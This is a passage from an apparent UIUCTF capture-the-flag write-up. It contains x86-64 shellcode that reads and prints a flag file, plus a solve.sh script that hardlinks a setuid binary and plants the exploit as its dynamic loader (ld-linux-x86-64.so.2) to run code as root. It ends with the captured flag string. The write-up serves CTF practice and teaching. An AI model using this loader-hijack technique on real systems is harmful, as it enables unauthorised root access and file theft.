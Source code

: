 ```asm
sub rsp, 0x100
push rax
mov rdi, rax
lea rbx, [rsp+0x8]
mov     rsi, rbx
mov     rdx, 0x100
mov eax, 0
syscall

/* write */
pop rax
mov rdi, 1
lea rbx, [rsp]
mov     rsi, rbx
mov     rdx, 0x100
mov eax, 1
syscall

ud2

/************* Fake data section *************/
/* we just want these read-only data to be near our pie code. Similar to arm64 :) */
flag:                                 
.ascii "/mnt/flag\0"
```

And here is our script that executes our exploit:

```bash
#!/bin/sh
# File: solve.sh
make
chmod ugo+x exploit
ln /usr/lib/zapps/build/exe exe # hardlink, which should preserve setuid and root owner
cp /usr/lib/zapps/build/lib.so .
cp /usr/lib/zapps/build/libc.so.6 .
ln -s exploit ld-linux-x86-64.so.2
./exe
```

And we get the flag!

`uiuctf{did-you-see-why-its-in-usr-lib-now-0cd5fb56}`

